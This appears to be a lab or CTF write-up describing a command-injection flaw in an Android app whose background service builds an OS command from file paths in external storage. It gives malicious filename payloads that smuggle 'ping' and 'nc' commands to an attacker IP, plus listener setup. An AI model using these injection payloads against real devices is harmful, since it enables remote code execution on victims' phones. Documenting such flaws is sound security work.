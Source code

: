 # Analysis
1. The application is running service that do loop through all files in external storage every 6 seconds and called `scanFile`.
![Loop files](images/loop%20all%20file%20external%20storage.png)

2. The file hash sha1 is being checked using function `scanFile`, this function is used the full path of the file in os command.
![Vulnerable code](images/vulnerable%20code.png)

3. By creating malicious filename in external storage, we able to gain remote code execution using this payload.
```sh
touch "zzz & ping -c 5 192.168.188.200 &"
touch "zzz & nc 192.168.188.200 8002"
```

# Exploitation
1. First time run the application, the app will asking permission to allow access manages all files.
![Ask for permission](images/app%20asking%20permission.png)

2. We create malicious filename in `/storage/emulator/0/Download/`
![create malicious filename](images/created%20malicious%20filename.png)

3. Setup listener.
- tcpdump
![tcpdump setup](images/setup%20tcpdump.png)
- nc
![nc setup](images/setup%20nc%20listener.png)

3. IP information for hosts and android (victim)
- Hosts:
![hosts ip](images/ifconfig%20hosts.png)
- Android (Victim):
![victim ip](images/android%20devices%20ip.png)

3. Toggle the button to run the service
![Enabling services](images/toggle%20enable%20scanner.png)

4. The service is do loop through all files in external storages.
![malicious filename is runned](images/log%20loop%20all%20file.png)

6. We got connection from the android.
- tcpdump (received icmp packet)
![received icmp](images/ping%20received.png)
- nc (received connection)
![received connection](images/nc%20received%20connection.png)
